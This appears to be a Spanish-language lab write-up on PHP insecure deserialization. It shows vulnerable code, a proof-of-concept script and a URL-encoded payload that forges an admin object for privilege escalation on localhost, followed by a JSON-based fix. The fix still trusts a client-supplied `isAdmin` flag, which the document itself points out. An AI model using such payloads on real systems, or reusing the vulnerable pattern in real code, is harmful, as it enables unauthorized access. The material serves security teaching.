



# Insafe  Deserialization (Deserialización Insegura)

Este laboratorio demuestra cómo funciona la **Deserialización Insegura** en PHP, cómo un atacante puede manipular objetos serializados para escalar privilegios y cómo mitigar la vulnerabilidad utilizando formatos de intercambio de datos seguros como JSON.

## 1. Descripción de la Vulnerabilidad

La deserialización insegura ocurre cuando una aplicación toma datos serializados (objetos convertidos en cadenas de texto) proporcionados por un usuario y los reconstruye (deserializa) sin validación.

En PHP, la función `unserialize()` es peligrosa porque permite instanciar objetos y asignar valores a sus propiedades antes de que el código de la aplicación pueda verificarlos.

**Impacto:**

* **Escalada de Privilegios:** Modificar propiedades como `isAdmin` o `role`.
* **Ejecución Remota de Código (RCE):** Si la aplicación utiliza "Magic Methods" (como `__wakeup` o `__destruct`), un atacante puede encadenar objetos para ejecutar comandos.
* **Manipulación de datos:** Alterar la lógica de negocio.

---

## 2. Análisis del Código Vulnerable

El código original utilizaba la función `unserialize()` para procesar la entrada del usuario. La clase `User` tiene una propiedad `$isAdmin` que por defecto es `false`.

**Código Vulnerable (`deserialize.php` original):**

```php
<?php
class User {
    public $username;
    public $isAdmin = false;
}

// VULNERABLE: Se confía ciegamente en el objeto que envía el usuario
$data = unserialize($_GET['data']);

if ($data->isAdmin) {
    echo "¡Acceso de administrador concedido!";
}
?>
```

(El sistema confía en que el objeto viene cerrado y seguro, pero el atacante puede fabricar uno propio).

---

## 3. Proceso de Explotación (PoC)

El objetivo es manipular el objeto serializado para cambiar la propiedad `$isAdmin` de `false` a `true` y obtener acceso de administrador.

### Paso A: Generación del Payload (El "Arma")

Creamos un script auxiliar (`attack.php`) que define la misma clase `User` pero con los valores que nosotros queremos (hacker / admin). Luego, serializamos ese objeto para obtener la cadena de texto maliciosa.

**Script de Ataque (`serialize_attack.php`):**

```php
<?php
class User {
    public $username = "hacker";
    public $isAdmin = true; // Forzamos el valor a TRUE
}
// Generamos la cadena serializada y codificada para URL
echo urlencode(serialize(new User()));
?>
```

**Resultado del script:**
Al ejecutar este script, obtenemos el payload:

```
O%3A4%3A%22User%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22hacker%22%3Bs%3A7%3A%22isAdmin%22%3Bb%3A1%3B%7D
```



### Paso B: Inyección y Ejecución

Enviamos el payload generado al script vulnerable mediante el parámetro `data`.

**URL del ataque:**

```
http://localhost/deserialize.php?data=[PEGAR_PAYLOAD_AQUI]
```

**Resultado:**
La función `unserialize()` reconstruye el objeto `User`. Como en nuestro payload `isAdmin` era `true`, la condición se cumple y logramos la escalada de privilegios.



---

## 4. Mitigación y Solución

La forma más efectiva de evitar la deserialización insegura es no utilizar serialización nativa de PHP para transmitir datos entre el cliente y el servidor.

### Solución Implementada

Se ha sustituido `serialize/unserialize` por JSON (`json_encode/json_decode`).

**¿Por qué es seguro?**
JSON es un formato de texto plano que solo representa datos, no objetos complejos ni clases. Al usar `json_decode`, no se pueden instanciar clases arbitrarias ni ejecutar métodos mágicos ocultos.



### Código Mitigado (`deserialize.php` final)

```php
<?php
class User {
    public $username;
    public $isAdmin = false;
}

// MITIGACIÓN: Usamos JSON.
// json_decode trata los datos como información pura, no como objetos ejecutables.
$jsonInput = $_GET['data'] ?? '';
$data = json_decode($jsonInput);

// Verificación explícita
if (isset($data->isAdmin) && $data->isAdmin == true) {
    echo "<h1>Eres Admin (Pero ahora usas JSON, así que es más seguro) 🔒</h1>";
} else {
    echo "<h1>Acceso denegado / Usuario normal 🚫</h1>";
}
?>
```

---

## Nota de Seguridad Importante

Aunque el uso de JSON previene la vulnerabilidad técnica de deserialización (RCE/Object Injection), **confiar en un parámetro `isAdmin` enviado por el usuario sigue siendo un fallo de lógica de negocio**.

En producción, los roles deben verificarse siempre contra una base de datos o sesión en el servidor. Nunca se debe confiar en la entrada del cliente para decisiones de autorización.